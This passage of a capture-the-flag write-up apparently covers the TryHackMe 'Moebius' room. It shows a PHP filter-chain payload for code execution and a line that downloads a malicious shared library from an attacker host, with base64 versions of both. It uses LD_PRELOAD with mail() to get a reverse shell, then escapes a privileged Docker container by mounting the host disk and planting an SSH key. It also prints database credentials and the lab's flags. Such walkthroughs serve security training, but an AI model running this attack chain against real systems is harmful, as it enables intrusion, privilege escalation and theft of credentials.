F7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.i
conv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-
encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv
.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.ic
onv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
```

Now, we can execute commands with `&0=<base64 string>`. Notice this can't be too long.

Our first commands will be, put the `hook.so` inside `/tmp/hook.so`:
```php
$h=curl_init("http://192.168.132.168:8081/hook.so");curl_setopt($h,19913,1);file_put_contents("/tmp/hook.so",curl_exec($h));
```

Using [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/#recipe=To_Base64('A-Za-z0-9%2B/%3D')&input=JGg9Y3VybF9pbml0KCJodHRwOi8vMTkyLjE2OC4xMzIuMTY4OjgwODEvaG9vay5zbyIpO2N1cmxfc2V0b3B0KCRoLDE5OTEzLDEpO2ZpbGVfcHV0X2NvbnRlbnRzKCIvdG1wL2hvb2suc28iLGN1cmxfZXhlYygkaCkpOw) we encode the string, and get this:
```bash
JGg9Y3VybF9pbml0KCJodHRwOi8vMTkyLjE2OC4xMzIuMTY4OjgwODEvaG9vay5zbyIpO2N1cmxfc2V0b3B0KCRoLDE5OTEzLDEpO2ZpbGVfcHV0X2NvbnRlbnRzKCIvdG1wL2hvb2suc28iLGN1cmxfZXhlYygkaCkpOw==
```


We can see it really works:



Next step, is to exeucte these commands, which is set the `LD_PRELOAD`, and trigger the exploit using `mail` function:
```php
putenv("LD_PRELOAD=/tmp/hook.so");mail('a','a','a','a');
```

Again, using [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/#recipe=To_Base64('A-Za-z0-9%2B/%3D')&input=cHV0ZW52KCJMRF9QUkVMT0FEPS90bXAvaG9vay5zbyIpO21haWwoJ2EnLCdhJywnYScsJ2EnKTs) I encoded the string:

```bash
cHV0ZW52KCJMRF9QUkVMT0FEPS90bXAvaG9vay5zbyIpO21haWwoJ2EnLCdhJywnYScsJ2EnKTs=
```



and we finnaly got reverse shell!


### Escapte from container

First, I checked for root privileges, using `sudo -l`. I seams we can do everything.
```bash
www-data@bb28d5969dd5:/var/www/html$ sudo -l
Matching Defaults entries for www-data on bb28d5969dd5:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User www-data may run the following commands on bb28d5969dd5:
    (ALL : ALL) ALL
    (ALL : ALL) NOPASSWD: ALL
    ```
Using linpeas we can find that the folder `/dev` is mounted:



I executed `mount`, we can see the file `/dev/nvme0n1p1` is mounted, 
```bash
www-data@bb28d5969dd5:/var/www/html$ mount
overlay on / type overlay (rw,relatime,lowerdir=/var/lib/docker/overlay2/l/4S7RSQVSSDZZ5TDS7KIJAFL5GZ:/var/lib/docker/overlay2/l/P6WCAJFVMV7JIFQYXSAYJUOEBG:/var/lib/docker/overlay2/l/YD7WMHG4IPXZTISOTL5CKNM7D4:/var/lib/docker/overlay2/l/NVTABTT3KHOUI43SEO6Z33MU4C:/var/lib/docker/overlay2/l/YZBFISSCDKCHBKDF7T33PWZRUX:/var/lib/docker/overlay2/l/EWU26YKM5EBYXKR7S36FCLFKYD:/var/lib/docker/overlay2/l/6JKWLWK6MHKH2XOIE2PNK5OLYH:/var/lib/docker/overlay2/l/3QS3A5IQLD2GEP3B3BQJMHESZI:/var/lib/docker/overlay2/l/VEHMAVKQMBXUSV5CD7DTINWOTR:/var/lib/docker/overlay2/l/YSGNPC2D3IXWM375QQMGMGFZFH:/var/lib/docker/overlay2/l/UKXWGTS6D53S33EFPBIPEJKSWS:/var/lib/docker/overlay2/l/LPZX4557HXOP63LOZXS5J5DNRJ:/var/lib/docker/overlay2/l/R2ZFPUIJUSLVVOU6AKQ5NUWEXA:/var/lib/docker/overlay2/l/ZRIIAJB4W32UJPJHDEHXPPBGRY:/var/lib/docker/overlay2/l/TSCQ32KRFNRGLFRBPFVTGXGO6L:/var/lib/docker/overlay2/l/ICRXAFNUT5TQYDH3MSX3SINL75:/var/lib/docker/overlay2/l/5QXHDLPUZN2PMU4TO5OQOSIJ3D:/var/lib/docker/overlay2/l/BMQYVFLAEERXL4JVDMKPREANXV:/var/lib/docker/overlay2/l/HWMYJK4KJQWKX7LSJNFMFSMUEZ,upperdir=/var/lib/docker/overlay2/7b3cf26f528efa374bb00eda5e44378ccee75cbcf5a9c9f82764191ad6c0d474/diff,workdir=/var/lib/docker/overlay2/7b3cf26f528efa374bb00eda5e44378ccee75cbcf5a9c9f82764191ad6c0d474/work)
proc on /proc type proc (rw,nosuid,nodev,noexec,relatime)
tmpfs on /dev type tmpfs (rw,nosuid,size=65536k,mode=755,inode64)
devpts on /dev/pts type devpts (rw,nosuid,noexec,relatime,gid=5,mode=620,ptmxmode=666)
sysfs on /sys type sysfs (rw,nosuid,nodev,noexec,relatime)
cgroup on /sys/fs/cgroup type cgroup2 (rw,nosuid,nodev,noexec,relatime,nsdelegate,memory_recursiveprot)
mqueue on /dev/mqueue type mqueue (rw,nosuid,nodev,noexec,relatime)
shm on /dev/shm type tmpfs (rw,nosuid,nodev,noexec,relatime,size=65536k,inode64)
/dev/nvme0n1p1 on /etc/resolv.conf type ext4 (rw,relatime,discard,errors=remount-ro)
/dev/nvme0n1p1 on /etc/hostname type ext4 (rw,relatime,discard,errors=remount-ro)
/dev/nvme0n1p1 on /etc/hosts type ext4 (rw,relatime,discard,errors=remount-ro)
```

and also more, using `lsblk` to list block files
```bash
www-data@bb28d5969dd5:/var/www/html$ lsblk
NAME        MAJ:MIN RM  SIZE RO TYPE MOUNTPOINTS
loop0         7:0    0   87M  1 loop 
loop1         7:1    0 63.9M  1 loop 
loop2         7:2    0 38.8M  1 loop 
nvme2n1     259:0    0    1G  0 disk 
nvme0n1     259:1    0   40G  0 disk 
`-nvme0n1p1 259:3    0   40G  0 part /etc/hosts
                                     /etc/hostname
                                     /etc/resolv.conf
nvme1n1     259:2    0    1G  0 disk
```

So, let's execute these commands:
```bash
mkdir /tmp/LOL
sudo mount /dev/nvme0n1p1 /tmp/LOL
```

than, we can access the root file system at `/tmp/LOL`.



Okay, let's exeucte chroot:
```bash
sudo chroot /tmp/LOL 
```



and grab the user flag:
```bash
root@bb28d5969dd5:~# cat /root/user.txt 
THM{ddb3254b89803ca177d7d11024e7935a}
```

BTW, we can check and see in the `docker-compose.yml` that the docker was privileged



### Find the root flag inside another container, in the mysql service

Inside the `challenge` dir, we can find `db/db.env` which holds credentials:
```bash
root@bb28d5969dd5:~/challenge/db# cat db.env; echo
MYSQL_PASSWORD=TAJnF6YuIot83X3g
MYSQL_DATABASE=web
MYSQL_USER=web
MYSQL_ROOT_PASSWORD=gG4i8NFNkcHBwUpd
```



First, we need to get ssh connection to the host machine, let's add the ssh keys.

I created pair of keys on my local machine:
```bash
┌──(agonen㉿kali)-[~/thm/Moebius]
└─$ ssh-keygen -t rsa
Generating public/private rsa key pair.
Enter file in which to save the key (/home/agonen/.ssh/id_rsa): moebius_key
Enter passphrase for "moebius_key" (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in moebius_key
Your public key has been saved in moebius_key.pub
The key fingerprint is:
SHA256:xxpbm0E/w/QEtgZ/j4m+FbcjhOvgxUhjhmUgoMwYHG4 agonen@kali
The key's randomart image is:
+---[RSA 3072]----+
|o..... .  . o    |
|=o.   . .  + o   |
|.E       o. = o  |
|.       +o =.= + |
|       .S==.*.= o|
|        +*+=oo o.|
|        ooo+...o |
|        . +  o. .|
|         . ..    |
+----[SHA256]-----+
```

and pasted the public key into the authorized keys on the server:
```bash
┌──(agonen㉿kali)-[~/thm/Moebius]
└─$ cat moebius_key.pub | xclip -sel clip
```



Now, we can login via ssh:
```bash
ssh root@moebius -i moebius_key
```



Now, we can look for running continaers:
```bash
root@ubuntu-jammy:~# docker container ps
CONTAINER ID   IMAGE                    COMMAND                  CREATED        STATUS       PORTS                                 NAMES
89366d62e05c   mariadb:10.11.11-jammy   "docker-entrypoint.s…"   9 months ago   Up 3 hours   3306/tcp                              challenge-db-1
bb28d5969dd5   challenge-web            "docker-php-entrypoi…"   9 months ago   Up 3 hours   0.0.0.0:80->80/tcp, [::]:80->80/tcp   challenge-web-1
```

There are two contianers, let's enter the continaer `mariadb:10.11.11-jammy`:
```bash
docker exec -it 89366d62e05c /bin/bash
```

Now, we can connect to the mysql service, with user `root` and password `gG4i8NFNkcHBwUpd`:
```bash
root@89366d62e05c:/# mysql -u root -p                                                                                                                        
Enter password:                                                                                                                                              
Welcome to the MariaDB monitor.  Commands end with ; or \g.                                                                                                  
Your MariaDB connection id is 13                                                                                                                             
Server version: 10.11.11-MariaDB-ubu2204 mariadb.org binary distribution                                                                                     
                                                                                                                                                             
Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.                                                                                         

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement. 

MariaDB [(none)]>
```

We can find the root flag inside the db `secret` and table `secrets`:
```bash
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| secret             |
| sys                |
| web                |
+--------------------+
6 rows in set (0.000 sec)

MariaDB [(none)]> use secret;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [secret]> show tables;
+------------------+
| Tables_in_secret |
+------------------+
| secrets          |
+------------------+
1 row in set (0.000 sec)

MariaDB [secret]> select * from secrets;
+---------------------------------------+
| flag                                  |
+---------------------------------------+
| THM{2ba37995df993f1294e7c155ce7ef929} |
+---------------------------------------+
1 row in set (0.000 sec)
```


